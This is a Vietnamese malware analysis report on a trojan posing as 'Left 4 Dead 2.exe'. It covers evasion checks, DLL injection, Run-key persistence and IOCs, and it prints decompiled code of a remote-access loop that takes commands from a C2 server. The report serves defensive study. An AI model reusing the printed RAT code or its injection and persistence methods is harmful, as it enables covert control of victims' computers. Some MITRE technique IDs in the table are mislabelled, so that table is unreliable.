# BÁO CÁO PHÂN TÍCH MÃ ĐỘC Left 4 Dead 2.exe

> Mẫu mã độc `"Left 4 Dead 2.exe"` và mật khẩu giải nén: `infected`.

## Mục lục

- [A. Tổng quan chung về mẫu mã độc](#a-tổng-quan-chung-về-mẫu-mã-độc)
- [B. Phân tích hành vi chi tiết của mẫu mã độc](#b-phân-tích-hành-vi-chi-tiết-của-mẫu-mã-độc)
  - [0. ANTI DEBUG](#0-anti-debug)
  - [1. ANTI VIRTUAL MACHINE](#1-anti-virtual-machine)
  - [2. ANTI SANBOX](#2-anti-sanbox)
  - [3. KIỂM TRA VÀ ĐIỀU CHỈNH QUYỀN](#3-kiểm-tra-và-điều-chỉnh-quyền)
  - [4. TẠO MUTEX](#4-tạo-mutex)
  - [5. CHỨC NĂNG CHÍNH CỦA MÃ ĐỘC](#5-chức-năng-chính-của-mã-độc)
  - [6. PHÂN TÍCH FILE check.dll](#6-phân-tích-file-checkdll)
  - [7. PHÂN TÍCH FILE Wallpaper.jpg](#7-phân-tích-file-wallpaperjpg)
- [C. IOC và khuyến cáo](#c-ioc-và-khuyến-cáo)
- [D. References](#d-references)

## A. Tổng quan chung về mẫu mã độc

- Phân tích tĩnh mẫu mã độc thu được thông tin như sau:

  - Mẫu mã độc là PE file 64-bit được chỉnh sửa lần cuối vào khoảng thời gian `Wednesday 14 June 2023, 18.54.05` (Đây có thể là khoảng thời gian mã độc được tạo ra).
  - Hash MD5 của mã độc: `E3F02984964913BE0280A8B8F784DF56`.

  

  

- Kiểm tra phần `Import Directory` thì không thấy có hàm nào được import.

  

- Sơ đồ tổng quan hành vi của mã độc:

  

## B. Phân tích hành vi chi tiết của mẫu mã độc

- Sử dụng `CFF Explorer` để tắt `DLL can move` trong `Optional Header\DllCharacteristics` (giá trị này = 0x40) để chương trình không còn ASLR và cố định `ImageBase = 0x400000` giúp thuận tiện trong quá trình debug các hàm.

- Tổng quan hàm `start()` của mã độc như sau:

  

- Đầu hàm `start()` gọi hàm `fn_init_loadDLL_404CA2()` để thực hiện tải các Dll vào chương trình và gọi hàm giải mã chuỗi tên các Dll bị mã hóa.

  

  

- Tên các Dll được mã hóa bằng thuật toán XOR và giải mã khi gọi đến theo index (Chương trình giải mã các strings mã hóa [decryptStrings1.py](./decryptStrings1.py)).

  

- Tiến hành phân tích chương trình theo chức năng.

### [0]. ANTI DEBUG

- Chương trình sử dụng kỹ thuật anti debug để thay đổi luồng thực thi chương trình khi sử dụng các debugger để phân tích.

  

- AntiDebug sử dụng kỹ thuật kiểm tra giá trị trường `BeingDebbuged` của `PEB structure` (Process Enviroment Block).

  

- AntiDebug sử dụng kỹ thuật gọi hàm `ntdll_NtQueryInformationProcess` để truy xuất giá trị bằng cách sử dụng lớp `ProcessDebugFlags`.

  - https://anti-debug.checkpoint.com/techniques/debug-flags.html#using-win32-api-ntqueryinformationprocess-processdebugflags

  

```c
ntdll.dll:ntdll_NtQueryInformationProcess

KERNEL32.DLL:kernel32_GetCurrentProcess
```

- AntiDebug sử dụng kỹ thuật gọi hàm `kernel32_CreateToolhelp32Snapshot` để lấy 1 snapshot của các quy trình, luồng và mô-đun sau đó duyệt tìm tiến trình (ở đây là các debugger phổ biến) rồi terminate nó.

  - https://anti-debug.checkpoint.com/techniques/misc.html#parent-process-check-createtoolhelp32snapshot

  

  

```c
KERNEL32.DLL:kernel32_CreateToolhelp32Snapshot

KERNEL32.DLL:kernel32_Process32First

KERNEL32.DLL:kernel32_Process32Next

KERNEL32.DLL:kernel32_TerminateProcess

KERNEL32.DLL:kernel32_CloseHandle

KERNEL32.DLL:kernel32_GetCurrentProcess
```

- Lưu ý nằm ở cách mà chương trình gọi các WindowsAPI, hàm `fn_getProcAddr_LoadLibrary_40585C()` được gọi với hai đối số liên quan đến Dll và hàm được gọi trong Dll (Đây là lý do mà khi dùng `CFF Explorer` để phân tích tĩnh không thấy bất kỳ hàm nào được import trong `Import Table`).

- Sau khi load được hàm mới, chương trình tạo mã hash của tên hàm rồi lưu mã hash vào vùng nhớ heap được cấp phát trước đó bằng `realloc`.

  

### [1]. ANTI VIRTUAL MACHINE

- Đầu tiên chương trình thực hiện gọi hàm trong các Dll theo cách đã được phân tích ở phần antidebug.

- Chương trình thực hiện truy xuất giá trị của Registry `HARDWARE\DESCRIPTION\System\BIOS\BIOSVendor` để lấy thông tin BIOS rồi so sánh nó với giá trị được giải mã là các loại máy ảo phổ biến `VM, vir, qemu, par` (Chương trình giải mã các strings mã hóa [decryptStrings2.py](./decryptStrings2.py)).

  

```c
advapi32.dll:advapi32_RegOpenKeyA

advapi32.dll:advapi32_RegQueryValueExA

advapi32.dll:advapi32_RegCloseKey
```

### [2]. ANTI SANBOX

- Đầu tiên chương trình thực hiện gọi hàm trong các Dll theo cách đã được phân tích ở phần antidebug.

- Chương trình thực hiện truy xuất giá trị của `username computer` để lấy thông tin tên máy rồi thực hiện hash 2 lần và so sánh nó với giá trị của 1 mảng biến toàn cục lưu mã hash 2 lần của các tên máy ảo sanbox phổ biến để trả về giá trị điều kiện nhằm làm sai luồng thực thi chương trình nếu như chạy trong các loại sanbox.

  

```c
advapi32.dll:advapi32_GetUserNameA
```

### [3]. KIỂM TRA VÀ ĐIỀU CHỈNH QUYỀN

- Đầu tiên chương trình thực hiện gọi hàm trong các Dll theo cách đã được phân tích ở phần antidebug.

- Chương trình thực hiện truy xuất giá trị đặc quyền token của tiến trình và điều chỉnh đặc quyền token của tiến trình.

  

```c
KERNEL32.DLL:kernel32_GetCurrentProcess

advapi32.dll:advapi32_OpenProcessToken

advapi32.dll:advapi32_LookupPrivilegeValueA

advapi32.dll:advapi32_AdjustTokenPrivileges
```

### [4]. TẠO MUTEX

- Đầu tiên chương trình thực hiện gọi hàm trong các Dll theo cách đã được phân tích ở phần antidebug.

- Chương trình thực hiện tạo mutex của tiến trình hiện tại và kiểm tra nếu tiến trình mã độc đã khởi chạy thì không khởi chạy lần thứ hai.

  

```c
KERNEL32.DLL:kernel32_CreateMutexA

advapi32.dll:advapi32_GetUserNameA
```

### [5]. CHỨC NĂNG CHÍNH CỦA MÃ ĐỘC

- Chương trình thực hiện các hành vi độc hại bao gồm:

  - Chương trình load phần data để tạo ra 2 file `"Wallpaper.jpg"`, `"check.dll"` và tự copy chính nó là file `"Left 4 Dead 2.exe"` thành file `"tmp.exe"` và lưu 3 file này tại đường dẫn `%TEMP%` của máy nạn nhân.
  - Thực hiện hành vi Injection Dll vào các process đang chạy trong máy nạn nhân.

  

- Hai file `"Wallpaper.jpg"`, `"check.dll"` được load từ phần resoure của chương trình, file `"tmp.exe"` được copy từ chính file gốc `"Left 4 Dead 2.exe"` và cả 3 file lưu ở `%TEMP%`.

  

  

  

```c
KERNEL32.DLL:kernel32_CreateFileA

KERNEL32.DLL:kernel32_WriteFile

KERNEL32.DLL:kernel32_CloseHandle

KERNEL32.DLL:kernel32_GetTempPathA

%temp%\\Wallpaper.jpg

%temp%\\check.dll

KERNEL32.DLL:kernel32_CopyFileA

KERNEL32.DLL:kernel32_GetCurrentDirectoryA

KERNEL32.DLL:kernel32_GetModuleFileNameA

%temp%\\tmp.exe
```

- Thực hiện hành vi Injection Dll vào các process đang chạy trong máy nạn nhân, có 2 case injection trong phần code này của chương trình:

  

  - Injection file `"check.dll"` vào các process `svchost.exe, dllhost.exe, explorer.exe, conhost.exe`.

    

  - Injection file `"Wallpaper.jpg"` vào process `cmd.exe`.

    

```c
KERNEL32.DLL:kernel32_OpenProcess

KERNEL32.DLL:kernel32_CreateProcessA

KERNEL32.DLL:kernel32_VirtualAllocEx

KERNEL32.DLL:kernel32_VirtualFreeEx

KERNEL32.DLL:kernel32_WriteProcessMemory

KERNEL32.DLL:kernel32_CreateRemoteThread

KERNEL32.DLL:kernel32_ResumeThread

KERNEL32.DLL:kernel32_LoadLibraryA
```

### [6]. PHÂN TÍCH FILE check.dll

- Phân tích tĩnh file `"check.dll"` thu được thông tin như sau:

  - Hash MD5 của file: `B1BE211951C599126D9AEAD77FC9A70B`.

  

- Tiến hành phân tích và debug với IDA, Debugging a DLL in IDA Pro

  - 1. open dll in ida pro

  - 2. go Debugger -> Process options

  ```c
  Application: c:\windows\system32\rundll32.exe

  Input file: <dir>\<dll file>

  Directory: <dir>

  Parameters: <dir>\<dll file>, <exported function> (VD: <dir>\<dll file>,#1)
  ```

  

- Hàm `L01()` đăng ký 1 Registry tên `AVScript` tại `HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` và đường dẫn file thực thi là `%TEMP%\tmp.exe`. Hành vi này nhằm duy trì thực thi của file mã độc `"tmp.exe"` (chính là file gốc `"Left 4 Dead 2.exe"`) mỗi khi máy tính nạn nhân được khởi chạy.

  

  

- Hàm `L01()` đảm bảo rằng hai tệp tin `"Wallpaper.jpg"` và `"tmp.exe"` luôn tồn tại trong thư mục tạm thời của hệ thống `"%TEMP%"`. Nếu tệp tin này bị xóa, hàm sẽ tạo lại chúng từ nội dung đã được đọc trước đó. Hàm này có thể được sử dụng để duy trì sự hiện diện của các tệp tin quan trọng cho việc hoạt động của chúng.

  

  

  

### [7]. PHÂN TÍCH FILE Wallpaper.jpg

- Phân tích tĩnh file `"check.dll"`thu được thông tin như sau:

  - Hash MD5 của file: `A31578CDEA28BE05B6B88406A9681F00`.

  

- Đây cũng là 1 file Dll nên đổi extensions file thành `".dll"`, tiến hành phân tích và debug với IDA, Debugging a DLL in IDA Pro

  - 1. open dll in ida pro

  - 2. go Debugger -> Process options

  ```c
  Application: c:\windows\system32\rundll32.exe

  Input file: <dir>\<dll file>

  Directory: <dir>

  Parameters: <dir>\<dll file>, <exported function> (VD: <dir>\<dll file>,#1)
  ```

  

- Cơ bản luồng thực thi ban đầu của file `"Wallpaper.jpg"` giống với file gốc `"Left 4 Dead 2.exe"` với các chức năng `antidebug`, `antivirtualmachine`, `antisanbox`, `kiểm tra và điều chỉnh quyền` và `tạo mutex`. Khác biệt nằm ở hành vi chính của chương trình này ở hàm `Wallpaper_39()`.

- Hàm `Wallpaper_39()` thực hiện gọi các WindowsAPI theo cách được đề cập đến ở phần `AntiDebug của file Left 4 Dead 2.exe` và danh sách các API sau:

  ```c
  1. ws2_32.dll:ws2_32_WSAStartup

  2. ws2_32.dll:ws2_32_getaddrinfo

  3. ws2_32.dll:ws2_32_socket

  4. ws2_32.dll:ws2_32_connect

  5. ws2_32.dll:ws2_32_recv

  6. ws2_32.dll:ws2_32_WSACleanup

  7. KERNEL32.DLL:kernel32_Sleep

  8. ws2_32.dll:ws2_32_send

  9. NULL

  10. KERNEL32.DLL:kernel32_GetCurrentDirectoryA

  11. KERNEL32.DLL:kernel32_CreateThread
  ```

- Chương trình thực hiện tạo socket kết nối mạng và mở port lắng nghe kết nối từ attacker nhằm thực hiện hành vi độc hại.
  - Đặt breakpoint để tìm kiếm port lắng nghe (IP: `"192.168.137.110"`, PORT: `"27015"`).
    

```c
int *__fastcall Wallpaper_39(_QWORD *a1, int *a2, int a3)
{
  __int64 v3; // rsi
  unsigned int v4; // eax
  int ProcAddr_loadLibrary; // edi
  int v6; // eax
  _QWORD *v7; // rbx
  __int64 v8; // rcx
  __int64 v9; // rcx
  __int64 v10; // rcx
  __int64 v11; // rcx
  __int64 v12; // rcx
  __int64 v13; // rcx
  __int64 v14; // rcx
  __int64 v15; // rcx
  __int64 v16; // rcx
  __int64 v17; // rax
  int *result; // rax
  __int64 v19[12]; // [rsp+30h] [rbp-50h] BYREF
  char v20[4]; // [rsp+90h] [rbp+10h] BYREF
  int v21; // [rsp+94h] [rbp+14h]
  int v22; // [rsp+98h] [rbp+18h]
  int v23; // [rsp+9Ch] [rbp+1Ch]
  char v24[416]; // [rsp+C0h] [rbp+40h] BYREF
  char Str[3001]; // [rsp+260h] [rbp+1E0h] BYREF
  char v26[7]; // [rsp+E19h] [rbp+D99h] BYREF
  char v27[32]; // [rsp+E20h] [rbp+DA0h] BYREF
  __int64 v28; // [rsp+E40h] [rbp+DC0h] BYREF
  int v29; // [rsp+E48h] [rbp+DC8h]
  int v30; // [rsp+E4Ch] [rbp+DCCh]
  void (__fastcall *v31_null)(__int64); // [rsp+E50h] [rbp+DD0h]
  __int64 v32_send; // [rsp+E58h] [rbp+DD8h]
  void (__fastcall *v33_Sleep)(__int64); // [rsp+E60h] [rbp+DE0h]
  void (*v34_WSACleanup)(void); // [rsp+E68h] [rbp+DE8h]
  __int64 (__fastcall *v35_recv)(__int64, char *, __int64, _QWORD); // [rsp+E70h] [rbp+DF0h]
  __int64 (__fastcall *v36_connect)(__int64, _QWORD, _QWORD); // [rsp+E78h] [rbp+DF8h]
  __int64 (__fastcall *v37_socket)(_QWORD, _QWORD, _QWORD); // [rsp+E80h] [rbp+E00h]
  __int64 (__fastcall *v38_getaddrinfo)(char *, char *, char *, __int64 *); // [rsp+E88h] [rbp+E08h]
  __int64 (__fastcall *v39_WSAStartup)(__int64, char *); // [rsp+E90h] [rbp+E10h]
  int v40; // [rsp+E9Ch] [rbp+E1Ch]
  int v41; // [rsp+EA0h] [rbp+E20h]
  int v42; // [rsp+EA4h] [rbp+E24h]
  int v43; // [rsp+EA8h] [rbp+E28h]
  int v44; // [rsp+EACh] [rbp+E2Ch]
  __int64 (__fastcall *v45_realloc)(_QWORD, __int64); // [rsp+EB0h] [rbp+E30h]
  __int64 (__fastcall *v46_time)(_QWORD); // [rsp+EB8h] [rbp+E38h]
  __int64 i; // [rsp+EC0h] [rbp+E40h]
  __int64 v48; // [rsp+EC8h] [rbp+E48h]
  unsigned int v49; // [rsp+ED4h] [rbp+E54h]
  unsigned int v50; // [rsp+ED8h] [rbp+E58h]
  int v51; // [rsp+EDCh] [rbp+E5Ch]

  v51 = *a2;
  if ( !a3 )
  {
    v46_time = *(__int64 (__fastcall **)(_QWORD))(*a1 + 400i64);
    v45_realloc = *(__int64 (__fastcall **)(_QWORD, __int64))(*a1 + 496i64);
    *a1 = v45_realloc(*a1, 96i64 * (v51 + 11));
    v44 = v51 + 11;
    v50 = 0;
    v49 = 30;
    while ( v51 < v44 )                         // 0x11 < 0x28
    {
      v50 = 6;
      if ( v51 > 25 || v51 == 23 )
        v50 = 5;
      v3 = *a1 + 96i64 * v51 - 96 + 57;
      v4 = v49++;
      ProcAddr_loadLibrary = fn_getProcAddr_loadLibrary(v50, v4);
      v6 = v46_time(0i64);
      v7 = (_QWORD *)(*a1 + 96i64 * v51);
      Wallpaper_37((unsigned int)v19, v51, v6, ProcAddr_loadLibrary, v3);
      *v7 = v19[0];
      v7[1] = v19[1];
      v7[2] = v19[2];
      v7[3] = v19[3];
      v7[4] = v19[4];
      v7[5] = v19[5];
      v7[6] = v19[6];
      v7[7] = v19[7];
      v7[8] = v19[8];
      v7[9] = v19[9];
      v7[10] = v19[10];
      v7[11] = v19[11];
      ++v51;
    }
  }
  v43 = 0;
  v42 = v51;
  if ( (unsigned int)Wallpaper_3(a1, 0i64, (unsigned int)v51) )
  {
    v48 = -1i64;
    v28 = 0i64;
    i = 0i64;
    v27[31] = 0;
    v41 = 3000;
    v40 = 17;
    v8 = *a1;
    v40 = 18;
    v39_WSAStartup = *(__int64 (__fastcall **)(__int64, char *))(v8 + 1648);//
                                                // ws2_32.dll:ws2_32_WSAStartup
    v9 = *a1;
    v40 = 19;
    v38_getaddrinfo = *(__int64 (__fastcall **)(char *, char *, char *, __int64 *))(v9 + 1744);//
                                                // ws2_32.dll:ws2_32_getaddrinfo
    v10 = *a1;
    v40 = 20;
    v37_socket = *(__int64 (__fastcall **)(_QWORD, _QWORD, _QWORD))(v10 + 1840);//
                                                // ws2_32.dll:ws2_32_socket
    v11 = *a1;
    v40 = 21;
    v36_connect = *(__int64 (__fastcall **)(__int64, _QWORD, _QWORD))(v11 + 1936);//
                                                // ws2_32.dll:ws2_32_connect
    v12 = *a1;
    v40 = 22;
    v35_recv = *(__int64 (__fastcall **)(__int64, char *, __int64, _QWORD))(v12 + 2032);//
                                                // ws2_32.dll:ws2_32_recv
    v13 = *a1;
    v40 = 23;
    v34_WSACleanup = *(void (**)(void))(v13 + 2128);//
                                                // ws2_32.dll:ws2_32_WSACleanup
    v14 = *a1;
    v40 = 24;
    v33_Sleep = *(void (__fastcall **)(__int64))(v14 + 2224);//
                                                // KERNEL32.DLL:kernel32_Sleep
    v15 = *a1;
    v40 = 25;
    v32_send = *(_QWORD *)(v15 + 2320);         //
                                                // ws2_32.dll:ws2_32_send
    v16 = *a1;
    v40 = 26;
    v31_null = *(void (__fastcall **)(__int64))(v16 + 2416);//
                                                // null
    v30 = v39_WSAStartup(514i64, v24);          // init socket
    fn_memset(v20, 0i64, 48i64);
    v21 = 0;
    v22 = 1;
    v23 = 6;
    fn_memset(v27, 0i64, 30i64);
    fn_memset(v26, 0i64, 7i64);
    Wallpaper_24(v27, v26);
    v30 = v38_getaddrinfo(v27, v26, v20, &v28); //
                                                // status = getaddrinfo("www.example.com", "80", &hints, &result);
                                                // 192.168.137.110
                                                // 27015
    for ( i = v28; i; i = *(_QWORD *)(i + 40) )
    {
      v48 = v37_socket(*(unsigned int *)(i + 4), *(unsigned int *)(i + 8), *(unsigned int *)(i + 12));//
                                                // create listen
      if ( v48 == -1 )
      {
        v29 = Wallpaper_18();
        v33_Sleep(500i64);
        v34_WSACleanup();
        Wallpaper_39(a1, a2, 1i64);
      }
      v30 = v36_connect(v48, *(_QWORD *)(i + 32), (unsigned int)*(_QWORD *)(i + 16));
      if ( v30 != -1 )
        break;                                  // follow true
      v31_null(v48);
      v48 = -1i64;
      v34_WSACleanup();
      v33_Sleep(500i64);
      Wallpaper_39(a1, a2, 1i64);
    }
    v17 = strlen(Str);
    fn_memset(Str, 0i64, v17);
    fn_memset(Str, 0i64, 3000i64);
    v41 = 3000;
    v30 = v35_recv(v48, Str, 3000i64, 0i64);
    v34_WSACleanup();
    v33_Sleep(1000i64);
    execute_command(a1, a2, Str);
    v40 = 17;
    *a2 = v51;
  }
  result = a2;
  *a2 = v51;
  return result;
}
```

- Hàm thực thi lệnh yêu cầu của attacker. (`Đây có lẽ là hành vi của một RAT malware`).

```c
// bad sp value at call has been detected, the output may be wrong!
void __fastcall __noreturn Wallpaper_46(_QWORD *a1, int *a2, __int64 a3)
{
  __int64 v3; // rcx
  __int64 v4; // rcx
  __int64 v5; // rcx
  __int64 v6; // rcx
  __int64 v7; // rcx
  __int64 v8; // rcx
  __int64 v9; // rcx
  __int64 v10; // rcx
  __int64 v11; // rcx
  __int64 v12; // rcx
  __int64 v13; // rcx
  __int64 v14; // rax
  size_t v15; // rbx
  unsigned int v16; // eax
  __int64 v17; // rax
  unsigned int v18; // eax
  char v19[600012]; // [rsp+30h] [rbp-50h] BYREF
  char v20; // [rsp+927FCh] [rbp+9277Ch] BYREF
  char v21[30012]; // [rsp+92800h] [rbp+92780h] BYREF
  int v22; // [rsp+99D3Ch] [rbp+99CBCh] BYREF
  char v23[272]; // [rsp+99D40h] [rbp+99CC0h] BYREF
  char v24[265]; // [rsp+99E50h] [rbp+99DD0h] BYREF
  char v25[7]; // [rsp+99F59h] [rbp+99ED9h] BYREF
  char v26[32]; // [rsp+99F60h] [rbp+99EE0h] BYREF
  char Str[30016]; // [rsp+99F80h] [rbp+99F00h] BYREF
  char v28[4]; // [rsp+A14C0h] [rbp+A1440h] BYREF
  int v29; // [rsp+A14C4h] [rbp+A1444h]
  int v30; // [rsp+A14C8h] [rbp+A1448h]
  int v31; // [rsp+A14CCh] [rbp+A144Ch]
  __int64 v32; // [rsp+A14F8h] [rbp+A1478h] BYREF
  char v33[416]; // [rsp+A1500h] [rbp+A1480h] BYREF
  char *v34; // [rsp+A16A0h] [rbp+A1620h]
  int v35; // [rsp+A16ACh] [rbp+A162Ch]
  char *v36; // [rsp+A16B0h] [rbp+A1630h]
  int v37; // [rsp+A16BCh] [rbp+A163Ch]
  char *v38; // [rsp+A16C0h] [rbp+A1640h]
  int v39; // [rsp+A16CCh] [rbp+A164Ch]
  void (__fastcall *v40)(char *); // [rsp+A16D0h] [rbp+A1650h]
  char *v41; // [rsp+A16D8h] [rbp+A1658h]
  int v42; // [rsp+A16E4h] [rbp+A1664h]
  int v44; // [rsp+A16F4h] [rbp+A1674h]
  int v45; // [rsp+A16F8h] [rbp+A1678h]
  unsigned int v46; // [rsp+A16FCh] [rbp+A167Ch]
  void (__fastcall *ProcAddr_loadLibrary)(char *); // [rsp+A1700h] [rbp+A1680h]
  __int64 (*v48)(void); // [rsp+A1708h] [rbp+A1688h]
  void (__fastcall *v49)(__int64, _QWORD); // [rsp+A1710h] [rbp+A1690h]
  void (__fastcall *v50)(char *, int *); // [rsp+A1718h] [rbp+A1698h]
  void (__fastcall *v51)(_QWORD, _QWORD, __int64 (__fastcall *)(), char *); // [rsp+A1720h] [rbp+A16A0h]
  void (__fastcall *v52)(__int64, char *); // [rsp+A1728h] [rbp+A16A8h]
  __int64 v53; // [rsp+A1730h] [rbp+A16B0h]
  __int64 (__fastcall *v54)(__int64, char *, __int64, _QWORD); // [rsp+A1738h] [rbp+A16B8h]
  void (__fastcall *v55)(__int64); // [rsp+A1740h] [rbp+A16C0h]
  void (*v56)(void); // [rsp+A1748h] [rbp+A16C8h]
  __int64 (__fastcall *v57)(__int64, char *, _QWORD, _QWORD); // [rsp+A1750h] [rbp+A16D0h]
  __int64 (__fastcall *v58)(__int64, _QWORD, _QWORD); // [rsp+A1758h] [rbp+A16D8h]
  __int64 (__fastcall *v59)(_QWORD, _QWORD, _QWORD); // [rsp+A1760h] [rbp+A16E0h]
  __int64 (__fastcall *v60)(char *, __int64, char *, __int64 *); // [rsp+A1768h] [rbp+A16E8h]
  void (__fastcall *v61)(__int64, char *); // [rsp+A1770h] [rbp+A16F0h]
  int v62; // [rsp+A1778h] [rbp+A16F8h]
  int j; // [rsp+A177Ch] [rbp+A16FCh]
  __int64 i; // [rsp+A1780h] [rbp+A1700h]
  __int64 v65; // [rsp+A1788h] [rbp+A1708h]
  _QWORD *v66; // [rsp+A17B0h] [rbp+A1730h]

  v66 = a1;
  v62 = 17;
  v3 = *a1;
  v62 = 18;
  v61 = *(void (__fastcall **)(__int64, char *))(v3 + 1648);
  v4 = *v66;
  v62 = 19;
  v60 = *(__int64 (__fastcall **)(char *, __int64, char *, __int64 *))(v4 + 1744);
  v5 = *v66;
  v62 = 20;
  v59 = *(__int64 (__fastcall **)(_QWORD, _QWORD, _QWORD))(v5 + 1840);
  v6 = *v66;
  v62 = 21;
  v58 = *(__int64 (__fastcall **)(__int64, _QWORD, _QWORD))(v6 + 1936);
  v7 = *v66;
  v62 = 22;
  v57 = *(__int64 (__fastcall **)(__int64, char *, _QWORD, _QWORD))(v7 + 2032);
  v8 = *v66;
  v62 = 23;
  v56 = *(void (**)(void))(v8 + 2128);
  v9 = *v66;
  v62 = 24;
  v55 = *(void (__fastcall **)(__int64))(v9 + 2224);
  v10 = *v66;
  v62 = 25;
  v54 = *(__int64 (__fastcall **)(__int64, char *, __int64, _QWORD))(v10 + 2320);
  v11 = *v66;
  v62 = 26;
  v53 = *(_QWORD *)(v11 + 2416);
  v12 = *v66;
  v62 = 27;
  v52 = *(void (__fastcall **)(__int64, char *))(v12 + 2512);
  v13 = *v66;
  v62 = 28;
  v51 = *(void (__fastcall **)(_QWORD, _QWORD, __int64 (__fastcall *)(), char *))(v13 + 2608);
  v50 = *(void (__fastcall **)(char *, int *))(*v66 + 592i64);
  v49 = *(void (__fastcall **)(__int64, _QWORD))(*v66 + 1456i64);
  v48 = *(__int64 (**)(void))(*v66 + 688i64);
  ProcAddr_loadLibrary = (void (__fastcall *)(char *))fn_getProcAddr_loadLibrary(4i64, 44i64);
  v65 = -1i64;
  v32 = 0i64;
  Str[30015] = 0;
  v46 = 30000;
  fn_memset(v26, 0, 30i64);
  fn_memset(v25, 0, 7i64);
  v61(514i64, v33);
  fn_memset(v28, 0, 48i64);
  v29 = 0;
  v30 = 1;
  v31 = 6;
  Wallpaper_24((__int64)v26, (__int64)v25);
  v45 = v60(v26, a3, v28, &v32);
  for ( i = v32; i; i = *(_QWORD *)(i + 40) )
  {
    v65 = v59(*(unsigned int *)(i + 4), *(unsigned int *)(i + 8), *(unsigned int *)(i + 12));
    v45 = v58(v65, *(_QWORD *)(i + 32), (unsigned int)*(_QWORD *)(i + 16));
  }
  v22 = 260;
  v50(v24, &v22);
  *(_WORD *)&v24[strlen(v24)] = 58;
  v52(260i64, v23);
  Wallpaper_56(v24, v23);
  strcat(v24, "> ");
  v44 = v54(v65, v24, 260i64, 0i64);
  while ( 1 )
  {
    v14 = strlen(Str);
    fn_memset(Str, 0, v14);
    fn_memset(Str, 0, 30000i64);
    v45 = v57(v65, Str, v46, 0i64);
    if ( v45 == -1 )
    {
      v55(1000i64);
      v56();
      Wallpaper_39(v66, a2, 1);
    }
    if ( v45 > 0 )
    {
      if ( Wallpaper_60(Str, "cmd") )
      {
        v42 = Wallpaper_45(Str);
        v41 = &Str[v42 + 1];
        fn_memset(v21, 0, 30000i64);
        Wallpaper_44(v41, v21);
        if ( !v21[0] )
          strcpy(v21, "N");
        fn_memset(v19, 0, 30000i64);
        for ( j = 0; ; ++j )
        {
          v15 = j;
          if ( v15 >= strlen(v21) )
            break;
          v19[j] = v21[j];
        }
        v44 = v54(v65, v19, 30000i64, 0i64);
      }
      else if ( Wallpaper_60(Str, "dwnl") )
      {
        Wallpaper_43(v65, Str);
      }
      else if ( Wallpaper_60(Str, "chdir") )
      {
        v40 = (void (__fastcall *)(char *))fn_getProcAddr_loadLibrary(4i64, 44i64);
        v39 = Wallpaper_45(Str);
        v38 = &Str[v39 + 1];
        v40(v38);
        fn_memset(v19, 0, 260i64);
        strcpy(v19, "DR:");
        v52(260i64, v38);
        Wallpaper_56(v19, v38);
        v16 = strlen(v19);
        v44 = v54(v65, v19, v16, 0i64);
      }
      else if ( Wallpaper_60(Str, "thr") )
      {
        v37 = Wallpaper_45(Str);
        v36 = &Str[v37 + 1];
        fn_memset(v21, 0, 30000i64);
        Wallpaper_58(v19, v36);
        v19[300000] = 0;
        a2 = (int *)&v20;
        LODWORD(v66) = 0;
        v51(0i64, 0i64, Wallpaper_40, v19);
        v55(100i64);
        v44 = v54(v65, "TC", 3i64, 0i64);
      }
      else if ( (unsigned int)Wallpaper_57(Str, "ex") )
      {
        if ( Wallpaper_60(Str, "chdir") )
        {
          v35 = Wallpaper_45(Str);
          v34 = &Str[v35 + 1];
          ProcAddr_loadLibrary(v34);
          fn_memset(v19, 0, 260i64);
          strcpy(v19, "DR:");
          v52(260i64, v34);
          Wallpaper_56(v19, v34);
          v18 = strlen(v19);
          v44 = v54(v65, v19, v18, 0i64);
        }
      }
      else
      {
        v44 = v54(v65, "ex", 3i64, 0i64);
        v17 = v48();
        v49(v17, 0i64);
      }
    }
  }
}
```

## C. IOC và khuyến cáo

- Thông tin của mã độc:

| Filename          | SHA1                                     |
| ----------------- | ---------------------------------------- |
| Left 4 Dead 2.exe | 25087eb5799f7a887e5d4dbbfdbdcbed8862d743 |
| tmp.exe           | 25087eb5799f7a887e5d4dbbfdbdcbed8862d743 |
| check.dll         | d4d84bcfe756e87033995d7e1531bf731f00d38b |
| Wallpaper.jpg     | f89518645d3cd3d93c0d441da0b778382614e712 |

- Thông tin phương thức tương tác và máy chủ C2C:

| IP              | PORT  |
| --------------- | ----- |
| 192.168.137.110 | 27015 |

- MITRE ATT&CK Tatics and Techniques Mapping:

| Tactic              | Techniques                                    |
| ------------------- | --------------------------------------------- |
| Defense Evasion     | T1140 - Anti-Debugging                        |
|                     | T1107 - File Deletion                         |
|                     | T1031 - Create and Maintain Accessible Copies |
|                     | T1027 - Obfuscated Files or Information       |
| Execution           | T1059 - Command and Scripting Interpreter     |
| Discovery           | T1012 - Query Registry                        |
| Credential Access   | T1056 - Input Capture                         |
| Collection          | T1005 - Data from Local System                |
| Impact              | T1485 - Data Destruction                      |
| Command and Control | T1071 - Standard Application Layer Protocol   |

## D. References

- Mẫu mã độc chưa được ghi nhận trên https://www.virustotal.com/
